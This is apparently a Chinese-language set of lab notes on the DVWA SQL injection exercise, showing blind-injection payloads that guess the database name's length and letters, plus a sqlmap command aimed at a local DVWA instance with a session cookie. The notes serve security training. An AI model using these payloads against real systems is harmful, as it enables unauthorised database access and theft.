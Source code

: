 ### 1.2. 手工盲注

#### 1.2.1. LOW

确定为字符型注入

**获取数据库名长度**

```
1' and length(database())=1#
1' and length(database())=2#
...
1' and length(database())=n#
```

n=4，数据库名长度为 4

**猜解字母**

substr 函数:

substr("str",pos,length) //pos 从 1 开始，返回 length 长字符串

| Dec | Hex  | 字符 |
| --- | ---- | ---- |
| 48  | 0x30 | 1    |
| 57  | 0x39 | 9    |
| 65  | 0x41 | A    |
| 90  | 0x5A | Z    |
| 97  | 0x61 | a    |
| 122 | 0x7A | z    |

```
1' and ascii(substr(database(),1,1))>97#
1' and ascii(substr(database(),2,1))>97#
1' and ascii(substr(database(),3,1))>97#
1' and ascii(substr(database(),4,1))>97#
```

#### 1.2.2. MEDIUM

#### 1.2.3. HIGH

### 1.3. 使用 sqlmap

**获取数据库信息**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch
```

result
